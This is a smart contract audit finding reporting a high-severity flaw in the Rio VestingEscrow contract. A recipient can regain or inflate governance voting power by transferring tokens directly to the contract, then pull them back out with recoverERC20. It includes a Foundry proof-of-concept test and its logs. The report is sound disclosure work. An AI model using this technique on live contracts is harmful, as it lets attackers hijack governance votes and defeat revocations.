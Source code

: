 Best Lime Poodle

high

# Voting Escrow Recipient can increase his voting power or regain his voting power after claiming all the vested tokens

## Summary
Recipients can increase their voting power or regain their voting power after claiming all the vested tokens

## Vulnerability Detail
The Vesting Escrow contract allows recipients to receive vesting tokens and based on that tokens it gives recipients the voting power. When the recipient claims all the vested tokens, the voting power of the user becomes [zero](https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/2d14c2b84b69c53a45c81aa4f907af9617f9a94f/rio-vesting-escrow/test/VestingEscrow.t.sol#L229). And the recipient no longer can participate in the governance.

The problem is that the voting power depends on the [contract balance](https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/2d14c2b84b69c53a45c81aa4f907af9617f9a94f/rio-vesting-escrow/src/VestingEscrow.sol#L152). As written in the VestingEscrow#vote comment; "Participate in a governance vote using all available tokens on the contract's balance."

The recipient/user can easily increase the contract balance by sending ERC20 tokens directly to the contract. By sending the tokens, contract balance will increase, when contract balance will increase, user's voting power/balance will increase too. This can be done to regain or massively increase the voting power.

There is also a [recoverERC20](https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/2d14c2b84b69c53a45c81aa4f907af9617f9a94f/rio-vesting-escrow/src/VestingEscrow.sol#L202C14-L202C26) function also present which allows the recipient/user to withdraw any ERC20 tokens (except for unclaim+locked). That's why user can deposit & withdraw freely, without risking of freezing his funds.

**Also, a user might get `revokeAll()` due to some legal documentation, then the user can get back his voting rights by exploiting this vulnareblity.** As `revokeAll()` function is in place so the org deploying the vesting escrow can clawback all the tokens, when something written into a legal contract surpasses. If the user breaks any legal conditions or do something malicious with the voting power, the owner of the contract will call `revokeAll()` which will clawback `locked + unclaimed` tokens and users' voting power will become zero.

## Proof-of-Concept
Add this test into the `VestingEsrow.t.sol` & run `forge test --mt testIncreaseVotingPowerOrRegainVotingPowerAfterClaimAll_PoC -vv`
```solidity
   function testIncreaseVotingPowerOrRegainVotingPowerAfterClaimAll_PoC() public {
        vm.warp(endTime);

        vm.prank(recipient);
        deployedVesting.delegate(ozVotingAdaptor.encodeDelegateCallData(address(deployedVesting)));

        console.log("voting power before claim", token.getVotes(address(deployedVesting)));
        assertEq(token.getVotes(address(deployedVesting)), token.balanceOf(address(deployedVesting)));

        vm.prank(recipient);
        deployedVesting.claim(recipient, type(uint256).max);

        //> Voting power = Zero, after claim
        assertEq(token.getVotes(address(deployedVesting)), 0);
        console.log("voting power after claim", token.getVotes(address(deployedVesting)));

        vm.prank(recipient);
        deal(address(token), recipient, 5 ether);
        token.transfer(address(deployedVesting), 5 ether);
        console.log("voting power increased", token.getVotes(address(deployedVesting)));
        //> Voting power increases after direct tokens transfer to the vesting contract
        assertEq(token.getVotes(address(deployedVesting)), token.balanceOf(address(deployedVesting)));
        assertEq(token.balanceOf(address(deployedVesting)), 5 ether);

        vm.prank(recipient);
        deployedVesting.delegate(ozVotingAdaptor.encodeDelegateCallData(address(deployedVesting)));

        uint256 proposalId = createProposal();
        uint256 votingBalance = token.getVotes(address(deployedVesting));

        vm.roll(block.number + 1);

        vm.prank(recipient);
        deployedVesting.vote(ozVotingAdaptor.encodeVoteCallData(proposalId, uint8(VoteType.For)));

        (uint256 againstVotes, uint256 forVotes, uint256 abstainVotes) = governor.proposalVotes(proposalId);
        assertEq(forVotes, votingBalance);
        assertEq(againstVotes, 0);
        assertEq(abstainVotes, 0);
    }
```
Logs:
```js
Running 1 test for test/VestingEscrow.t.sol:VestingEscrowTest
[PASS] testIncreaseVotingPowerOrRegainVotingPowerAfterClaimAll_PoC() (gas: 439443)
Logs:
  voting power before claim 1000000000000000000
  voting power after claim  0
  voting power increased    5000000000000000000

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.89ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Impact
- Governance Compromised
This will compromise the Governance, as users can increase their voting power (as much as they want), more voting power then they were initially assigned to. Or at least regain their voting power whenever they want (after claim all). And a malicous user can get voting rights even after getting revoked.

## Code Snippet
https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/2d14c2b84b69c53a45c81aa4f907af9617f9a94f/rio-vesting-escrow/src/VestingEscrow.sol#L152

## Tool used
[🦅](https://twitter.com/0x_Shaheen/status/1722664258142650806)

## Recommendation
To completely mitigate this issue, The voting power should not be dependent on the contract balance. To make this vulnerability hard to exploit, Remove recoverERC20.

I encourage the Rio team to discover better ways to handle this issue. Thanks!
